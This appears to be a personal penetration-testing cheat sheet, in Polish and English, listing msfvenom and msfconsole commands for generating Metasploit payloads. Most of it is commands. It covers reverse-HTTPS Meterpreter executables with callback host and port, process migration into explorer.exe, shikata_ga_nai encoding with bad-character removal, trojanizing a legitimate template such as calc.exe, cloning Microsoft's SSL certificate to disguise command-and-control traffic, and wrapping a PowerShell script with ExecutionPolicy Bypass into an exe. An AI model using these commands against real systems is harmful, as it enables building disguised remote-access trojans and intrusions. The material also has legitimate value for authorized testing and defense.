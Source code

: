 # $ msfvenom

https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

**Tutorial:** https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Ciekawe payloady: https://www.hackingarticles.in/fun-metasploit-payloads/

| msfvenom | what | msfvenom help |
| ---- | ---- | ---- |
| `-p ... LHOST=... LPORT=... ...`<br><br>automatyczna migracja do procesu<br>`prpendmigrateprocess=explorer.exe prependmigrate=true` | payloads | `msfvenom --list payloads`<br>`msfvenom --list-options -p ...` |
| `-f exe` | formats | `msfvenom --list formats` |
| `> file.exe`<br>`-o file.exe` | zapisz do pliku |  |
| `-e x86/shikata_ga_nai` <br>`-i 3` | encoders | `msfvenom --list encoders` |
| `-b '\x00\x0a\x0d\x20\xff'` | bad chars to avoid |  |
| `-x calc.exe` | custom template |  |
| `-k` | keep functionality of template |  |
| `--smallest` | generate smallest possible payload |  |


https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

## paylod z msfconsole

https://www.rapid7.com/blog/post/2020/12/23/metasploit-tips-and-tricks-for-haxmas-2020-2/#Skipping%20msfvenom's%20boot%20time

```bash
# omijanie msfvenom, generowanie payload z msfconsole
# Use the payload module:
use windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false

# Create the executable, as an alternative to msfvenom:
generate -o reverse_windows.exe -f exe

# Create a handler, as an alternative to exploit/multi/handler
to_handler / exploit -jq
```
## impersonate_ssl
request a copy of the remote SSL certyficate and creates a local (self signed) version using the information from the remote version.
```bash
$ msf> us egather/impersonate_ssl
$ msf> set rhost www.microsoft.com
$ msf> run
```
```bash
$ msf> use windows/x64/meterpreter/reverse_https
$ msf> set lhost ...
$ msf> set lport ...
$ msf> set handlersslcert </cert/path/cert.pem> # set SSL cert to use 
$ msf> set stagerverifysslcert true# TLS pinning
$ msf> generate -t exe -f ... # generate file within metasploit
$ msf> to_handler

```
## Własny shellcode zamiast metasploitowego payloadu

```bash
$ cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'
-p - instructs msfvenom to read the custom payload from the stdin
--platform win: is used to specify the platform
-e x86/shikata_ga_nai: specifies the encoder to use
-f c: sets the output format (in this case C)
```
## Convert a PowerShell script into an executable file
```bash
$ msfvenom -p windows/x64/exec CMD="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File yourscript.ps1" -f exe -o outputfile.exe

```
